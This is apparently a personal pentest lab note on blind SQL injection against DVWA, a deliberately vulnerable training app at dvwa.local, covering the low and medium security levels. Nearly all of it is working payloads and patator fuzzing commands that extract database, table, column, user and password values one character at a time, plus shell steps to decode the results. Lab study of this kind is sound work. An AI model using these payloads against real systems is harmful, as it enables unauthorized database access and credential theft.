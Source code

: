 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

LOW

[[Patator]]

http://dvwa.local/vulnerabilities/sqli_blind/?id=1

POC:
```
1' AND sleep (10)-- - 
```

Find the length of the database:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and length(database())='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Retrieve the name of the database:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring(database(),RANGE0,1))='RANGE1&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-4" 1="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

Find number of databases:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(schema_name) from information_schema.schemata)='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Find names of databases:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT schema_name from information_schema.schemata LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-1" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`information_schema` and `dvwa`

Enumerate dvwa tables:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(table_name) from information_schema.tables where table_schema='dvwa')='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Enumerate the table names:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT table_name from information_schema.tables where table_schema='dvwa' LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-1" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```


```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`guestbook` and `users`

Enumerate `users` table:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

There are 8 columns, enumerate the names of the columns:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT column_name from information_schema.columns where table_schema='dvwa' and table_name='users' LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`user_id`, `first_name`, `last_name`, `user`, `password`, `avatar`, `last_login` and `failed_login`

Enumerate `first_name` and `users`
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and (SELECT count(first_name) from dvwa.users)='RANGE0&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:1-10" -x ignore:fgrep="User ID is MISSING from the database."
```

Enumerate first_name:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT first_name from dvwa.users LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

`admin`, `Gordon`, `Hack`, `Palbo`, `Bob`

Enumerate users:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT user from dvwa.users LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

Enumerate passwords:
```bash - kali
python3 patator.py http_fuzz url="http://dvwa.local/vulnerabilities/sqli_blind/?id=1' and ascii(substring((SELECT password from dvwa.users LIMIT 1 OFFSET RANGE0),RANGE1,1))='RANGE2&Submit=Submit#" method="GET" header="Cookie: PHPSESSID=vn5pl1pirs5h9heugved2tjrsg; security=low" 0="int:0-7" 1="int:1-20" 2="int:1-256" -x ignore:fgrep="User ID is MISSING from the database."
```

```bash - kali
cat patatorASCII | awk '{print $9}' | cut -d : -f 3 | tr -d " \t\n\r" 
```

Paste in values here, may not be in correct order!
https://onlineasciitools.com/convert-decimal-to-ascii

MEDIUM

Same as above, however, the `'` needs to be removed from all payloads, such as:

POC:
```
1 AND sleep (10)-- - 
```